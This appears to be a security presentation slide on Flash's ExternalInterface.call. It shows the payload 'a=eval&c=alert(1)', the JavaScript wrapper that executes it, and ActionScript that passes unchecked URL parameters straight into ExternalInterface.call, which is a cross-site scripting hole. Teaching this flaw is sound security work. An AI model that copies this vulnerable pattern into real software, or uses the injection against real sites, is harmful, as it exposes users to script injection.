

JavaScript Implementation 2
ExternalInterface.call

a=eval&c=alert(1)
try { __flash__toXML(eval("alert(1)");} catch (e) { "<undefined/>"; }

var param:Object = root.loaderInfo.parameters;
var action:String = param["a"];
var cmd:String = param["c"];
flash.external.ExternalInterface.call(action, cmd);